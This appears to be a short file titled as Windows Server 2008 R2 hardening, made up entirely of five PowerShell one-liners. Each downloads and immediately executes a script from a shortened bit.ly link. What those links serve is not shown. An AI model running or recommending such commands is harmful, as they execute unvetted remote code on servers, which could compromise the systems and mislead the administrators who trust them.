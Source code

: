 # 2008_R2_Hardening
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/36qZxOg')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2MPMyhq')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2FkU2op')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2ZQ0zkz')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2QjV76e')"
